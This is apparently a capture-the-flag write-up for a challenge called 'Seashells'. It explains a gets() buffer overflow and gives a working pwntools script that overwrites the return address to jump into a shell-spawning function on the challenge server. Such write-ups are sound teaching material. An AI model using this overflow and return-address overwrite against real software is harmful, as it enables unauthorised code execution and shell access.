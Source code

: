 # Seashells

There is a function called "shell". This function loads rdi into rbp-8, checks it against the value `0xdeadcafebabebeef`, 
and if the check is successful it pops a shell for us.  
Clearly, our goal is to call this function.  

In main, there is a gets call. It reads as much input as we want into `rbp-0xa`, opening up an avenue for buffer overflow.
As the saved rbp is 8 bytes long, our padding will be 0xa + 8 bytes of junk.  

We *could* use a pop rdi gadget so that the check works properly, 
but there's no need. Instead, we can jump straight to the instruction inside of shell that pops a shell for us.  

So our payload is just padding + address of instruction in shell that pops a shell  
```python
from pwn import *
NUM_TO_RET = 0xa + 8
padding = b'A' * NUM_TO_RET
payload = flat(padding,0x4006e3, word_size=64)
p = remote('p1.tjctf.org',8009)
p.recvlines(2)
pause()
p.sendline(payload)
p.interactive()
```
